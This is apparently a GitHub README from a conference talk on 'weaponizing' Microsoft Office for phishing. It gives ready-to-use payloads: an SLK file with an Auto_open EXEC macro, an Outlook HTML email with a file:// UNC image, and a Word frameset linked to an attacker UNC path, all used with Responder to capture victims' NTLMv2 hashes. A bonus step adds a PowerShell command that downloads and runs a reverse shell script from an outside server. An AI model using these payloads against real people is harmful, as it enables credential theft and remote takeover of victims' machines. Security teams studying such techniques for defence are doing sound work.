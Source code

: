 # Weaponizing-Office
twitter: [iKnadt](https://twitter.com/iKnadt)

## Introduction:
I did a talk at [0xC0ffee](https://0xc0ffee.co.za), where I discussed different ways to weaponize microsoft office.
What was different about the talk, was that these methods have been discovered prior to 2018, and did not require a lot of user interaction to execute the payloads. These methods work great with phishing attacks.

I decided not to use a standard way to present my talk, so [@MTB_m00se](https://twitter.com/MTB_m00se) introduced me to terminal markdown where I found [patat](https://github.com/jaspervdj/patat)

I recently discovered a tool called (Responder)[https://github.com/SpiderLabs/Responder], which I used in my talk.
I mainly used Responder to capture NTLMv2 hashes from victom machines.

I found a great [article](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4) explaining what is NTLMv2 hashes and what can be done with it.

Below is a short extract from the article:
> This is the way passwords are stored on modern Windows systems, and can be obtained by dumping the SAM database, or using Mimikatz. They are also stored on domain controllers in the NTDS file. These are the hashes you can use to pass-the-hash.

## Contents:

1. Excel (.SLK)
2. Outlook (file://)
3. Word (frameset)

A common finding in penetration tests is that clients are not properly managing egress packet filtering from their network to the internet. This post specifically talks about the dangers of allowing egress of SMB communications over port 445 to the internet, and one simple method of exploiting it to capture a user's credentials, crack them, and gain access to the network.

Objective is to capture NTLMv2 hashes by using the above programs. The user should not have to do more than 1 click after downloading the office file. 

```BONUS: will try to get reverse shells as well```

## 1. Excel (.SLK)

> An SLK file is a file saved in the Symbolic Link (SYLK) format created by Microsoft to transfer data between spreadsheet programs and other databases. 

I found this exploit on [ired.team](https://ired.team/offensive-security/phishing-with-ms-office/phishing-.slk-excel) which gave a great walkthrough oh how to exactact perform RCE in an SLK file.

### Excel RCE 

#### Setup
1. Create an new text file, put the the below code and save it as .slk file:
```
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:\shell.cmd")
C;X1;Y102;K0;EHALT()
E
```
2. DONE `HOLY SHIT THAT WAS HARD!!`

#### Capture NTLMv2 Hash

Setup Responder `./Responder.py -I ens4 -vvv`

Replace `c:\shell.cmd` with `cmd.exe /c \\IP\IPC$`. Please make sure the IP is your IP.

Once the file.slk is opened the user will need to click on `Enable Content`. Once the user clicks the button the payload is executed. Once the button is clicked Excel, every time after that the payload will be executed when the file is openned (Unless the files is renamed).

![](excel_NTLMv2_hash_capture.gif)

#### Excel RCE - Powershell Reverse shell(BONUS)

1. Change the `cmd.exe /c \\IP\IPC$` to 

````
	powershell IEX 
	(New-Object Net.WebClient).DownloadString(
	'http://192.168.56.101/test.ps1')
````
2. set up `test.ps1` on a server. 
test.ps1 is a [powershell reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell)

DONE...

![](excel_NTLMv2_hash_reverse.gif)

More on [Symbolic Link](https://en.wikipedia.org/wiki/SYmbolic_LinK_(SYLK)) files

## 2. Outlook (file://)

### Steps:
1. Create HTML email
2. `<img src="file://IP/fakeimage.png" />`
3. Send email! Important!

![](outlook_capture_hash.gif)

NOTE: `the user only needs to download the image once. As the POC shows, once the email is openned again, the hash is captured`

Though: can this be uses as a [DOS attack](https://www.kb.cert.org/vuls/id/867968/)?


## 3. Word (frameset)

> Historically Microsoft Word was used as an HTML editor. This means that it can support HTML elements such as framesets. It is therefore possible to link a Microsoft Word document with a UNC path and combing this with responder in order to capture NTLM hashes externally.

### Setup (more complicated)

1. Create a word document
2. Write anything into the document
3. Save Document
4. Right click on document -> Open archive
5. Edit \file.docx\word\webSettings.xml
6. Add the following to the file between `<w:optimizeForBrowser/>` xml tag

````
<w:frameset>
<w:framesetSplitbar>
<w:w w:val="60"/>
<w:color w:val="auto"/>
<w:noBorder/>
</w:framesetSplitbar>
<w:frameset>
<w:frame>
<w:name w:val="3"/>
<w:sourceFileName r:id="rId1"/>
<w:linkedToFile/>
</w:frame>
</w:frameset>
</w:frameset>
````

7. Create file \file.docx\word\_rels\webSettings.xml.rels

````
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships
xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
<Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/frame" Target="\\IP\Microsoft_Office_Updates.docx" TargetMode="External"/>
</Relationships>
````
8. DONE!!!

POC is too long to make a GIF

More information on [Framesets](https://pentestlab.blog/2017/12/18/microsoft-office-ntlm-hashes-via-frameset/)
